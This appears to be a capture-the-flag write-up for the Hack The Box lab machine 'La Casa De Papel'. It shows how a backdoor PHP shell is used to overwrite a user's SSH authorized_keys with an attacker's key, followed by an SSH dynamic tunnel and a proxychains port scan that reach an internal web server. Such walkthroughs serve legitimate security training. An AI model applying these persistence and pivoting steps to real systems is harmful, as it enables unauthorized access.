 
# La Casa De Papel

Alternate way to get into the box, we don't need to do any certificate to log in as in the intended way.

Generate a new rsa public/private key with ssh-keygen, take the public key id_rsa.pub lets convert to base64, and call it PAYLOADBASE64


Log into the nc port 6200 after exploiting vsftd where we have a limited php enviroment, we have to upload the payload to /home/dali/.ssh/authorized_keys (we can overwrite it)
```
$>nc 10.10.10.131 6200
unlink("/home/dali/.ssh/authorized_keys");
fwrite(fopen("/home/dali/.ssh/authorized_keys","w+"),base64_decode("PAYLOADBASE64"));
```

Now we can log it using ssh to test the id_rsa we generated before, but we are not doing any command stuff, we just use it to enable a dynamic tunnel with the machine.

```
$>ssh -i id_rsa -D 1080 dali@10.10.10.131
```

In other terminal, using proxychains we can scan the ports that are open only for local connections

```
$>proxychains nmap -sT -n -Pn 127.0.0.1 -p-

PORT     STATE SERVICE
8000/tcp open  http-alt
```

Port 8000 is open, and if we scan it we can see that is a web server, is the same webserver we can browse if we use the intented way of entering the machine, but locally we don't need any certificate.

```
$>proxychains curl 127.0.0.1:8000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:8000-<><>-OK
<li><a href="?path=SEASON-1">SEASON-1</a></li><li><a href="?path=SEASON-2">SEASON-2</a></li><li><strong>Select a season</strong></li>
```

You have here also a python script to upload a public key and the private id_rsa file to enable the dynamic tunnel

